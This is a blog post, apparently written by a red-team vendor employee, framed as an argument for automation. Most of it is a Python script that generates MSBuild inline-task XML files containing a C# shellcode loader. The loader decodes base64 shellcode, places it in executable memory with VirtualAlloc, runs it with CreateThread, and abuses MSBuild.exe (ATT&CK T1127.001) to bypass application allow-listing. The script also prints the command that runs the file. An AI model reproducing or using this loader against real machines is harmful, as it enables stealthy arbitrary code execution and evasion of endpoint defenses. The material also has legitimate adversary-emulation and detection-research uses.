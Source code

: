 ```yaml
---
layout: post
title:  "Automation for Consistency and Scale"
date:   2022-02-17 00:18:23 +0700
categories: [security]
---
```

Automation is a great way to test reliability in what you are doing, and to help ensure that your process is repeatable.

## Why automate?
There are a lot of reasons to automate, however three reasons that often prompt me to look at automating my solutions are the following:
+	<em>Repeatability</em> - Being able to repeat the process is important for any task that I need someone else to replicate 
+	<em>Reliability</em> - Being able to have a repeatable process increases the chance I find any errors and allows consistency with deployment
+	<em>Building complexity</em> - With complex tasks that involve multiple pieces working together, it can be difficult to understand how a small change in one place impacts the overall repeatability or reliability of the entire chain. With automation, the impact of small changes can be better understood.

## Example
Part of automating is building tools to help your workflow through increased consistency and potentially also when troubleshooting!

One of the newest SCYTHE features is easier shellcode availability for customers. I wanted to build some examples of using this new feature for customers to leverage that may not already be familiar with shellcode. There is a ton of great blogs on leveraging shellcode from tools like Metasploit, including the ired.team blog here: https://www.ired.team/offensive-security/code-execution/using-msbuild-to-execute-shellcode-in-c

That blog highlights using the MSBuild (MITRE ATT&CK Sub-Technique T1127.001)[https://attack.mitre.org/techniques/T1127/001/] leveraged by adversaries to execute code. After walking through that blog post, I got tired of copy + pasting as I was testing shellcode so I wrote a script to do part of the job for me.

I found that there were a few items that changed for me between executions that automating helped me troubleshoot faster:
+ <em>Escape characters</em> - 
+ <em>32 vs 64 bit shellcode</em> - This is a major difference that not only requires changes to the XML document generated, but also leverages another 64 bit loader for execution afterward
+ <em>Python vs PowerShell for base64 encoding</em> - 

{% highlight python %}
# MSBuild Item Generator
# Credit to https://www.ired.team/offensive-security/code-execution/using-msbuild-to-execute-shellcode-in-c for the idea
import sys, base64

Generic_msbuild32_string1 = """
<Project ToolsVersion="4.0" xmlns="http://schemas.microsoft.com/developer/msbuild/2003">
<!-- This inline task executes shellcode. This example XML file is modified from an example payload created by Casey Smith. It has been modified to support non-blocking shellcode loaders.-->
<!-- C:\Windows\Microsoft.NET\Framework\\v4.0.30319\msbuild.exe SimpleTasks.csproj -->
<!-- Save This File And Execute The Above Command -->
<!-- Authors: Casey Smith, Twitter: @subTee , The Wover-->
<!-- License: BSD 3-Clause -->
<Target Name="Run">
<ClassExample />
</Target>
<UsingTask
TaskName="ClassExample"
TaskFactory="CodeTaskFactory"
AssemblyFile="C:\Windows\Microsoft.Net\Framework\\v4.0.30319\Microsoft.Build.Tasks.v4.0.dll" >
    <Task>
        <Code Type="Class" Language="cs">
            <![CDATA[
            using System;
            using System.Runtime.InteropServices;
            using Microsoft.Build.Framework;
            using Microsoft.Build.Utilities;
            public class ClassExample :  Task, ITask
            {         
                private static UInt32 MEM_COMMIT = 0x1000;
                private static UInt32 PAGE_EXECUTE_READWRITE = 0x40;
                [DllImport("kernel32")]
                private static extern UInt32 VirtualAlloc(UInt32 lpStartAddr, UInt32 size, UInt32 flAllocationType, UInt32 flProtect);
                [DllImport("kernel32")]
                private static extern IntPtr CreateThread(UInt32 lpThreadAttributes, UInt32 dwStackSize, UInt32 lpStartAddress, IntPtr param, UInt32 dwCreationFlags, ref UInt32 lpThreadId);
                [DllImport("kernel32")]
                private static extern UInt32 WaitForSingleObject(IntPtr hHandle, UInt32 dwMilliseconds);
                public override bool Execute()
                {
			"""

Generic_msbuild32_string2 = """
		      byte[] shellcode = System.Convert.FromBase64String(b64);
                    
                    UInt32 funcAddr = VirtualAlloc(0, (UInt32)shellcode.Length, MEM_COMMIT, PAGE_EXECUTE_READWRITE);
                    Marshal.Copy(shellcode, 0, (IntPtr)(funcAddr), shellcode.Length);
                    IntPtr hThread = IntPtr.Zero;
                    UInt32 threadId = 0;
                    IntPtr pinfo = IntPtr.Zero;
                    hThread = CreateThread(0, 0, funcAddr, pinfo, 0, ref threadId);
                    // Loop endlessly to prevent the process from exiting
                    int x = 0;
                    for (int i = 0; i==i; i++) 
                    {
                        x = i;
                        x++;
                    }
                    return true;
                } 
            }     
            ]]>
            </Code>
        </Task>
    </UsingTask>
</Project>
"""

Generic_msbuild64_string1 = """
<Project ToolsVersion="4.0" xmlns="http://schemas.microsoft.com/developer/msbuild/2003">
<!-- This inline task executes shellcode. This example XML file is modified from an example payload created by Casey Smith. It has been modified to support non-blocking shellcode loaders.-->
<!-- C:\Windows\Microsoft.NET\Framework\\v4.0.30319\msbuild.exe SimpleTasks.csproj -->
<!-- Save This File And Execute The Above Command -->
<!-- Authors: Casey Smith, Twitter: @subTee , The Wover-->
<!-- License: BSD 3-Clause -->
<Target Name="Run">
<ClassExample />
</Target>
<UsingTask
TaskName="ClassExample"
TaskFactory="CodeTaskFactory"
AssemblyFile="C:\Windows\Microsoft.Net\Framework\\v4.0.30319\Microsoft.Build.Tasks.v4.0.dll" >
    <Task>
        <Code Type="Class" Language="cs">
            <![CDATA[
            using System;
            using System.Runtime.InteropServices;
            using Microsoft.Build.Framework;
            using Microsoft.Build.Utilities;
            public class ClassExample :  Task, ITask
            {         
                private static UInt64 MEM_COMMIT = 0x1000;
                private static UInt64 PAGE_EXECUTE_READWRITE = 0x40;
                [DllImport("kernel32")]
                private static extern UInt64 VirtualAlloc(UInt64 lpStartAddr, UInt64 size, UInt64 flAllocationType, UInt64 flProtect);
                [DllImport("kernel32")]
                private static extern IntPtr CreateThread(UInt64 lpThreadAttributes, UInt64 dwStackSize, UInt64 lpStartAddress, IntPtr param, UInt64 dwCreationFlags, ref UInt64 lpThreadId);
                [DllImport("kernel32")]
                private static extern UInt64 WaitForSingleObject(IntPtr hHandle, UInt64 dwMilliseconds);
                public override bool Execute()
                {
			"""

Generic_msbuild64_string2 = """
		      byte[] shellcode = System.Convert.FromBase64String(b64);
                    
                    UInt64 funcAddr = VirtualAlloc(0, (UInt64)shellcode.Length, MEM_COMMIT, PAGE_EXECUTE_READWRITE);
                    Marshal.Copy(shellcode, 0, (IntPtr)(funcAddr), shellcode.Length);
                    IntPtr hThread = IntPtr.Zero;
                    UInt64 threadId = 0;
                    IntPtr pinfo = IntPtr.Zero;
                    hThread = CreateThread(0, 0, funcAddr, pinfo, 0, ref threadId);
                    // Loop endlessly to prevent the process from exiting
                    int x = 0;
                    for (int i = 0; i==i; i++) 
                    {
                        x = i;
                        x++;
                    }
                    return true;
                } 
            }     
            ]]>
            </Code>
        </Task>
    </UsingTask>
</Project>
"""

scythe_shellcode_bin = sys.argv[1]
isit_32_or_64_shellcode = sys.argv[2]

with open(scythe_shellcode_bin, "rb") as f:
    encoded_string = base64.b64encode(f.read())
    base64_message = encoded_string.decode('UTF-8')
shellcode_string = 'string b64 = "' + base64_message +'";'

if isit_32_or_64_shellcode == '32':
    with open('bad-32.xml', 'w') as msbuild:
        msbuild.write(Generic_msbuild32_string1)
        msbuild.write(shellcode_string)
        msbuild.write(Generic_msbuild32_string2)
        print("To execute, run the following in PowerShell - C:\Windows\Microsoft.NET\Framework\\v4.0.30319\MSBuild.exe .\\bad-32.xml")
elif isit_32_or_64_shellcode == '64':
    with open('bad-64.xml', 'w') as msbuild:
        msbuild.write(Generic_msbuild64_string1)
        msbuild.write(shellcode_string)
        msbuild.write(Generic_msbuild64_string2)
        print("To execute, run the following in PowerShell - C:\Windows\Microsoft.NET\Framework64\\v4.0.30319\MSBuild.exe .\\bad-64.xml")
else:
    print("Must specify shellcode as 32 or 64 after the file name")
print("Done.")
{% endhighlight %}

[jekyll-gh]: https://github.com/mojombo/jekyll
[jekyll]:    http://jekyllrb.com

